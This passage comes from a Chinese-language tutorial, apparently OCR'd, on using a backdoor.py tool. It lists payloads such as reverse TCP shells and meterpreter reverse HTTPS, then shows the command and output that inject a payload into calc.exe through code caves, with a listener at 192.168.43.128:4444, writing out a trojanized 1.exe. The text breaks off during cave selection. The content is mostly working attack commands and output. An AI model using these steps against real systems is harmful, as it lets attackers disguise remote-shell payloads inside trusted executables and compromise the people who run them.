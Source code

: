 **[使用] step3**:获得可用的payload

```shell
[>>>>] ./backdoor.py -f workspace/calc.exe -s show
The following WinIntelPE64s are available: (use -s)
   cave_miner_inline
   iat_reverse_tcp_inline
   iat_reverse_tcp_inline_threaded
   iat_reverse_tcp_stager_threaded
   iat_user_supplied_shellcode_threaded
   meterpreter_reverse_https_threaded
   reverse_shell_tcp_inline
   reverse_tcp_stager_threaded
   user_supplied_shellcode_threaded

```

**[使用] step4**:填充并生成

```shell
[>>>>] ./backdoor.py -f workspace/calc.exe -s cave_miner_inline -J -H 192.168.43.128 -P 4444  -o 1.exe
[*] In the backdoor module
[*] Checking if binary is supported
[*] Gathering file info
[*] Reading win64 entry instructions
[*] Looking for and setting selected shellcode
[*] Creating win64 resume execution stub
[*] Looking for caves that will fit the minimum shellcode length of 44
[*] All caves lengths:  44, 44, 55
############################################################
The following caves can be used to inject code and possibly
continue execution.
**Don't like what you see? Use jump, single, append, or ignore.**
############################################################
[*] Cave 1 length as int: 44
[*] Available caves: 
1. Section Name: None; Section Begin: None End: None; Cave begin: 0x2f4 End: 0x3fc; Cave Size: 264
2. Section Name: .text; Section Begin: 0x400 End: 0x1000; Cave begin: 0xf84 End: 0xffc; Cave Size: 120
3. Section Name: .rdata; Section Begin: 0x1000 End: 0x1e00; Cave begin: 0x1016 End: 0x1064; Cave Size: 78
4. Section Name: .rdata; Section Begin: 0x1000 End: 0x1e00; Cave begin: 0x10a7 End: 0x1114; Cave Size: 109
5. Section Name: None; Section Begin: None End: None; Cave begin: 0x1c68 End: 0x1e04; Cave Size: 412
7. Section Name: .data; Section Begin: 0x1e00 End: 0x2000; Cave begin: 0x1e55 End: 0x1ffc; Cave Size: 423
8. Section Name: None; Section Begin: None End: None; Cave begin: 0x20e6 End: 0x220a; Cave Size: 292
9. Section Name: .rsrc; Section Begin: 0x2200 End: 0x6a00; Cave begin: 0x302c End: 0x3064; Cave Size: 56
10. Section Name: .rsrc; Section Begin: 0x2200 End: 0x6a00; Cave begin: 0x42ac End: 0x4324; Cave Size: 120
11. Section Name: .rsrc; Section Begin: 0x2200 End: 0x6a00; Cave begin: 0x6754 End: 0x68ce; Cave Size: 378
12. Section Name: .rsrc; Section Begin: 0x2200 End: 0x6a00; Cave begin: 0x6911 End: 0x69fd; Cave Size: 236
**************************************************
[!] Enter your selection: 11
[!] Using selection: 11
[*] Changing flags for section: .rsrc
[*] Cave 2 length as int: 44
[*] Available caves: 
1. Section Name: None; Section Begin: None End: None; Cave begin: 0x2f4 End: 0x3fc; Cave Size: 264
```